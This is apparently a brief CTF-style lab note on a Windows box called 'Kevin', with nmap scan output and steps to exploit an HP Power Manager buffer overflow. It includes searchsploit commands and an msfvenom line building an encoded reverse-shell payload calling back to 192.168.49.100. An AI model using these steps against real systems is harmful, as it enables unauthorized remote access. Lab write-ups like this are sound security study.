 # Kevin
# date 4-8-2023
# 192.168.207.45
# buffer overflow

# nmap 
PORT      STATE SERVICE            VERSION
80/tcp    open  http               GoAhead WebServer
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC

# exploitaion

└─$ searchsploit hp power manager
└─$ searchsploit -m windows/remote/10099.py
192.168.207.45

msfvenom -p windows/shell_reverse_tcp -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.49.100 LPORT=80 -e x86/alpha_mixed -f c

We can replace everything in the SHELL variable of exploit script after n00bn00b with our own code, open a listener and run the exploit to get a reverse shell back as root.

